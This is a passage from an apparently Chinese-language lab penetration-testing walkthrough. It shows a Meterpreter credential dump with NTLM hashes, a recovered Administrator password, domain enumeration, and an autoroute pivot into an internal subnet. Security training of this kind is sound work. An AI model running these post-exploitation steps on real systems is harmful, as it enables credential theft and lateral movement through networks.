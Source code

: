 ```
0;999     Negotiate  HACKBOX       WEB$           fd 98 a6 6e 20 e3 7b c1 4d 89 89 44 ac 7d 5e eb e5 e4 05 66 32 4d 9d 18 4e 8d 20 b1 ee 19 31 27 88 ec 81 a4 c1 d7 09 81 8d 49 e2 53 28 fd 98 5b 0a 84 49 b2 12 8c fd e1 f3 be 44 d4 f6 fc 20 54 b4 2b 85 6a 04 6f 5b d4 30 3d 03 b8 bc 84 9e c0 0c 3a 0f fa 9d 13 22 df 80 23 67 72 04 5e be 7c a7 f7 84 f1 eb 3f 5e 0f 85 23 7f 20 24 89 fe 2f 73 08 ee b6 e7 50 f7 e2 d5 19 4b 36 2b 73 90 da d1 c3 e7 a7 c4 32 e6 1b d4 7c e2 de 46 35 2d ff f7 d0 53 0d 38 76 4a a7 98 7b 95 a4 1e 72 7c ad b3 d6 fc 81 f0 af 7f 43 e7 38 58 fc 5b a1 2a 67 65 aa 09 f2 ff 2d 46 a6 6b 51 1a 25 58 77 d1 bc 75 6c 12 94 10 34 57 b7 5b 02 e6 cb 1c 7b e4 a1 ee cf 91 0c 7c 81 53 74 5e e4 8e 5f 11 be 72 e0 77 42 c3 73 08 af d2 fe 17 18 4a 29 24 bd 4a 86

meterpreter > msv
\[+\] Running as SYSTEM
\[\*\] Retrieving msv credentials
msv credentials
===============

AuthID    Package    Domain        User           Password
------    -------    ------        ----           --------
0;996     Negotiate  HACKBOX       WEB$           lm{ 00000000000000000000000000000000 }, ntlm{ 9c85552a37071a3d5cb1323478044b0d }
0;47706   NTLM                                    lm{ 00000000000000000000000000000000 }, ntlm{ 9c85552a37071a3d5cb1323478044b0d }
0;423161  NTLM       WEB           Administrator  lm{ c6125126643bbe191e929ffc01395127 }, ntlm{ 086a0bb1ed4ec72250760ea531bf8074 }
0;997     Negotiate  NT AUTHORITY  LOCAL SERVICE  n.s. (Credentials KO)
0;999     Negotiate  HACKBOX       WEB$           n.s. (Credentials KO
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPia1nGYexERNF3pnFibG8vWS3icvuic7iaKM7m55MIuJa58vsXu5Ux9IusflA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaT04PTTwoUHgSTlFq5CukibPlRlvWicUeFo5PgZHDNDMsN9pAnK0kLxpA/640?wx_fmt=png)

 抓到了 administrator 的密码为：!@#Qwe456，而且目标看上去是一个域环境。

```
\# 查看是不是域环境
run post/windows/gather/enum\_domain
```

为了验证一下我们查看一下目标：ipconfig /all，发现目标是存在域环境的，主机名是：web，域是：hackbox.com，并且目标是有双网卡，有一个内网网卡，内网 ip 为：10.10.10.150，其中 dns 服务器是：10.10.10.149

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaPpLbZW1eQiaJvXmN19dHH5ZqK5u64fia86VPd2YXyOvtlsLT4uK0EeWw/640?wx_fmt=png)

一般情况下，域控制器的 ip 地址就是 dns 服务器 ip，10.10.10.149 这个 ip 有可能是域控制器的 ip！

如果不是的话，我们还可以通过 MSF 的模块来搜集域内信息：

```
run autoroute -s 10.10.10.0/24
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPianprgiaibHbseiau1lOdLMTShxliafjUVynDI8Qy5wTicPEtjibLEgM0W5xjw/640?wx_fmt=png)

当前的域是：hackbox，dc（域控制器）的 ip 为 69.172.201.153，这个 ip 是一个外网 ip，由于是靶机的情况下，他找不到内网 ip，就只能找外网的了，我们不用管。

